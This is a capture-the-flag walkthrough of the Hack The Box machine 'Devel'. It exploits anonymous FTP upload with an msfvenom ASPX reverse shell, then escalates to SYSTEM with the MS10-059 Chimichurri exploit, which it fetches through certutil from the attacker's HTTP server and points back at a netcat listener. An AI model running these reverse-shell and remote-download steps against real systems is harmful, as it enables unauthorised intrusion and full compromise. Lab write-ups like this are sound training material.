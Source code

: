 ```yaml
---
description: https://www.hackthebox.eu/home/machines/profile/3
---
```


# Devel

## \*\*Nmap \*\*

```
nmap 10.10.10.5 -p- -A -T4

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

As we can see we have port 21 and port 80 open. I will start by hitting port 80 with `gobuster` and `nikto` to save some time and will then jump into port 21.

## FTP

From the `nmap` results earlier we can see FTP is running on port 21 and anonymous login is allowed. (nmap will check this by default). We successfully login as per below:

![ftp on port 21](<../../../.gitbook/assets/image (134) (1).png>)

We are able to login with a blank password using the anonymous login. We can see the aspnet\_client directory where if we follow leads us to a directory with the .NET framework version it is running under.

![](<../../../.gitbook/assets/image (135) (1).png>)

We can take a note of the version running on the machine in the event we need it. From the login directory of the FTP we can see the welcome page "welcome.png" for IIS. When viewing this we can see the server is running IIS7.

![IIS7 welcome.png](<../../../.gitbook/assets/image (136) (1).png>)

## File Upload

As it is possible the FTP has been misconfigured we should check to see if we can perform a file upload. If we are able to perform this it is probable we could access uploaded files in the web browser and get a reverse shell on the server.

![testing ftp file upload](<../../../.gitbook/assets/image (137) (1).png>)

We can see when we now browse to the file in a web browser we can see our text file confirming file upload.

## Payload Creation

![file upload on ftp](<../../../.gitbook/assets/image (138) (1).png>)

At this point we should see if we can get a reverse shell uploaded and hopefully we can execute it as well. As this is an IIS server we would ideally need to use a ASP or ASPX reverse shell. We can create these with `msfvenom`.

We need to use the following payload:

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f aspx  -o /home/kali/Desktop/upload.aspx
```

{% hint style="info" %}
netcat does not handle staged payloads well so the payload above is unstaged.
{% endhint %}

I used port 443 for my port in the payload as this is a reliable connection that is usually open on web servers.

We can upload the payload to the server using the `put` command.

![uploading our payload to the ftp](<../../../.gitbook/assets/image (139) (1).png>)

## Reverse Shell

Before attempting to execute the payload we need to set up a `netcat` listener to catch the reverse shell. if we are using a port within the 1-1024 range we will need to use `sudo`

![setting up a nc listener on port 443](<../../../.gitbook/assets/image (140).png>)

We can now browse to the directory of the file we uploaded.

![](<../../../.gitbook/assets/image (141) (1).png>)

![Low privilege shell](<../../../.gitbook/assets/image (142) (1).png>)

After checking back on `netcat` we have a shell as a low privilege account on the server.

## Privilege Escalation

We should now run the `systeminfo` command to see what initial information we can gather regarding the system. Taking note the important fields such as OS Name and System Type.

![](<../../../.gitbook/assets/image (143) (1).png>)

We can take the `systeminfo` information and run this against Windows exploit suggester.

![Window exploit suggester.](<../../../.gitbook/assets/image (144) (1).png>)

The exploit we are interested in above is MS10-059. This is a kernel level exploit which affects the following:

|                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Vulnerability Identifier**: CVE-2010-2554; CVE-2010-2555                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
| **Risk**: Important                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| **Affected Software**:                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| <ul><li>Windows 7 for 32-bit Systems</li><li>Windows 7 for x64-based Systems</li><li>Windows Server 2008 for 32-bit Systems</li><li>Windows Server 2008 for 32-bit Systems Service Pack 2</li><li>Windows Server 2008 for Itanium-based Systems</li><li>Windows Server 2008 for Itanium-based Systems Service Pack 2</li><li>Windows Server 2008 for x64-based Systems</li><li>Windows Server 2008 for x64-based Systems Service Pack 2</li><li>Windows Server 2008 R2 for x64-based Systems</li><li>Windows Vista Service Pack 1</li><li>Windows Vista Service Pack 2</li><li>Windows Vista x64 Edition Service Pack 1</li><li>Windows Vista x64 Edition Service Pack 2</li></ul> |
| <p><strong>Description:</strong><br><br></p><p>This security update addresses vulnerabilities in the the Tracing Feature for Services that could allow increase in privilege once an attacker runs a specially crafted application.</p>                                                                                                                                                                                                                                                                                                                                                                                                                                            |

In this scenario we are going to use the Chimichurri compiled exploit taken from the following GitHub link:

[https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri/Compiled](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri/Compiled)

Once downloaded we can `cd` to the directory where we have the Chimichurri.exe on our attacking machine and start a `Python SimpleHTTPServer` with the following command:

```
python -m SimpleHTTPServer <PORT>
```

{% hint style="info" %}
If no port is specified Python will default to port 8000
{% endhint %}

We can then use `certutil.exe` on the Windows machine to download the executable from our attacking machine.

```
certutil.exe -urlcache -split -f "http://<IP>:<PORT>/chimichurri.exe"
```

![Downloading with certutil.exe](<../../../.gitbook/assets/image (145) (1).png>)

When attempting to run the executable we are given a usage example:

![](<../../../.gitbook/assets/image (146) (1).png>)

First we can set up a `netcat` listener on our attacking machine to catch the shell.

```
nc -lvp 4455
```

We can these use the following command to run Chimichurri.exe

```
Chimichurri.exe 10.10.14.31 4455
```

After waiting a short while we should gain a shell as NT Authority\system

![](<../../../.gitbook/assets/image (147) (1).png>)
